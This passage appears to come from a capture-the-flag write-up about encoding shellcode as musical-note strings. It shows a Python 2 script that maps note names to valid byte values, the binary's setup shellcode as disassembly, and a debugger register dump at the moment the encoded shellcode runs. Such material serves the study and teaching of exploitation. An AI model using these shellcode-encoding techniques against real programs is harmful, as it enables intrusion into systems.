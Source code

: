 ```
 14         y = x & 0xff
 15         z = x & 0xff00
 16         y = y << 8
 17         z = z >> 8
 18         x = y | z
 19         return x
 20 
 21 for i in noteChars:
 22         for j in xrange(10):
 23                 validBytes[i + str(j)] = ''
 24 
 25 for i in xrange(0xffff):
 26         x = reverseBits(i)
 27         if x > 0x67de or x <= 0x1a:
 28                 continue 
 29         x = runMath(x)
 30         y = int(x) / 12
 31         z = noteChars[int(x) % 12]
 32         out =  z + str(y)       
 33         if validBytes[out] == '':
 34                 validBytes[out] = hex(i)
 35                 
 36 print validBytes
```

The binary puts this shellcode before our own:

```
   0x60606000: add    esp,0x30
   0x60606003:  xor    eax,eax
   0x60606005:  xor    ebx,ebx
   0x60606007:  xor    ecx,ecx
   0x60606009:  xor    edx,edx
   0x6060600b:  xor    edi,edi
   0x6060600d:  xor    esi,esi
   0x6060600f:  mov    edi,esp
   0x60606011:  mov    esi,esp
   0x60606013:  nop
```

and the status of all of the registers when our shellcode finally runs:
```
$eax   : 0x0       
$ebx   : 0x0       
$ecx   : 0x0       
$edx   : 0x0       
$esp   : 0xff954cbc  →  "OOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOO[...]"
$ebp   : 0xff954ed8  →  0x00000000
$esi   : 0xff954cbc  →  "OOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOO[...]"
$edi   : 0xff954cbc  →  "OOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOO[...]"
$eip   : 0x60606014  →  "A3F0A1G0G6G6G6G1G0G6G6G6G1G0G6G6G6G1G0G6G6G6G1G0A3[...]"
$eflags: [carry PARITY adjust ZERO sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0023 $ss: 0x002b $ds: 0x002b $es: 0x002b $fs: 0x0000 $gs: 0x0063 
```
